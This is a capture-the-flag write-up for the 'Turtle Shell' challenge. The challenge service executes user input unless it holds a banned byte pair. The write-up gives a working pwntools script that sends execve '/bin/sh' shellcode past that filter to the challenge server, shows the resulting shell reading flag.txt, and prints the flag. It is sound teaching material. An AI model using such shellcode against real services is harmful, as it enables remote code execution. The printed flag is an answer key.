


# Turtle Shell



We are given the compiled binary running on the server.

Upon connecting to the server, we can see what the service does:



So looks like it just takes in our input and thats it.

I decompiled the binary and it essentially checks to see if your input contains the byte sequence `xb0\x3b`. If it does, the program hangs. Otherwise, our input is executed.

Knowing this, we can input shellcode that does not contain that byte sequence.

I was able to find 64bit shellcode here: https://www.exploit-db.com/exploits/46907

I then wrote the following script to send the shellcode over and get the flag:

```py
from pwn import *

r = remote("turtle.sdc.tf", 1337)

print(r.recvuntil(b'shell\n'))


# https://www.exploit-db.com/exploits/42179
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

payload = shellcode

r.sendline(payload)
r.interactive()
```

```
┌──(kali㉿kali)-[~/ctf/sdctf]
└─$ python3 turtle.py
[+] Opening connection to turtle.sdc.tf on port 1337: Done
b'Say something to make the turtle come out of its shell\n'
[*] Switching to interactive mode
$ cat flag.txt
sdctf{w0w_y0u_m4d3_7h3_7urT13_c0m3_0u7_0f_1t5_5h3l1}
```

Flag: `sdctf{w0w_y0u_m4d3_7h3_7urT13_c0m3_0u7_0f_1t5_5h3l1}`
